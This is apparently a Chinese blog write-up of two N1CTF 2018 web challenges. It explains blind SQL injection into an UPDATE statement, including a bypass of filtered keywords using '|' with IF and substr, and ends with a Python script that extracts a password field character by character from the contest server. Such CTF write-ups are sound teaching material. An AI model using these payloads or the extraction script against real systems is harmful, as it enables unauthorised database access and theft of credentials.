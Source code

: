 ```yaml
---
layout: post
title: "N1CTF 77777 writeup"
date: 2018-03-08 22：40
categories: jekyll update
---
```


# 前言
&emsp;&emsp;这是我及我所在的团队第一次参加`正式`的CTF比赛，所取得的成绩也还算满意，比赛过程中作者负责`web`方向，比赛中的成果就是两道`77777`。

### 77777
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/n1ctf/1.png" >  
</div>
<div align="center">
    <img src="/images/posts/n1ctf/2.png" >  
</div>
&emsp;&emsp;这道题最坑的就是一开始`没有判断出是否注入成功的依据`，后面经师兄指导才发现依据就是注入的数字是否已经改变，当然这道题的环境官方也说明每个队注入`没有隔离开`，造成即使注入成功也可能被别的队刷走，从而影响判断。

&emsp;&emsp;又因为它是`sptintf("xxx%d%s")`，所以注入应该在`str`的地方，也就是在`hi`中进行注入，payload：`hi=000 where ord(substr(password, 1, 1))>100`，因为是在`update users set`中注入，所以这里不需要再使用`union,select`等方法了。完整的payload如下图：
<div align="center">
    <img src="/images/posts/n1ctf/3.png" >  
</div>
&emsp;&emsp;如果注入成功，则会返回你的`flag`字段，如：
<div align="center">
    <img src="/images/posts/n1ctf/4.png" >  
</div>
&emsp;&emsp;由于这个题的环境不稳定，不太适合脚本的判断，所以，就手工注入一遍了。

### 77777 2
&emsp;&emsp;这道题跟上一道提供的描述是一样的，不同的是对`hi`进行了更严格的过滤，上一道的payload就无效了。

&emsp;&emsp;这道题过滤了`and or || & &&`（为了不产生二义，这里用空格分隔），但是唯独没有过滤掉`|`。所以我们可以选择`|`进行`位注入`。然后在检测一下，没有被过滤的是：`substr select from if`，所以考虑用`if`替代`where`进行判断。

&emsp;&emsp;经过一轮苦逼的测试，终于搞出一个payload：`hi=000 |  IF (substr((select substr( pw from 1)),1,1)>'z',1,0)`，这里`( pw`中间一定要有`空格`，不然无法绕过。另一个要说的就是`pw from 1`，它会返回`pw字段从1开始的所有值`。如：
```
pw = 'flag{123456}'
pw from 1 ---> flag{123456}
```

&emsp;&emsp;payload：
<div align="center">
    <img src="/images/posts/n1ctf/5.png" >  
</div>
&emsp;&emsp;判断的依据是返回的数字的最后一位，如：
<div align="center">
    <img src="/images/posts/n1ctf/6.png" >  
</div>
&emsp;&emsp;如果是返回错误则是如下：
<div align="center">
    <img src="/images/posts/n1ctf/7.png" >  
</div>
<div align="center">
    <img src="/images/posts/n1ctf/8.png" >  
</div>
>另一个tips就是数字的后一位一定要`0`，不然如果是`1`的话就无法判断了。`1 |`任何也是真。

&emsp;&emsp;再然后就是逐位的判断，有些数字会被过滤掉，这点上不知道是我的payload有问题还是本来就是这样。。。。
<div align="center">
    <img src="/images/posts/n1ctf/9.png" >  
</div>
&emsp;&emsp;如上，逐位比较的时候使用`+1`的方法，如果直接用2,3,4,...的话有些数字`会被过滤`，还有就是有些字符也会被过滤，但无关flag字段。
&emsp;&emsp;附上脚本：
```python
# -*- coding:utf-8 -*-
import requests

url = 'http://47.52.137.90:20000/'
flag = ''

for i in range(1, 50):
    lc = ''
    for a in range(i):
        lc += '+1'
    lc = lc[1:]
    sql = '000 |  IF (substr((select substr( pw from 1)),{0},1)>\'{1}\',1,0)'
    for ch in range(33, 128):
        sqli = sql.format(lc, chr(ch))
        data = {
            'flag': 123,
            'hi': sqli
        }
        # print(data)
        html = requests.post(url, data=data)
        text = html.text
        # print(text)
        if '123000' in text:
            flag += chr(ch)
            print(flag)
            break
        else:
            pass
```

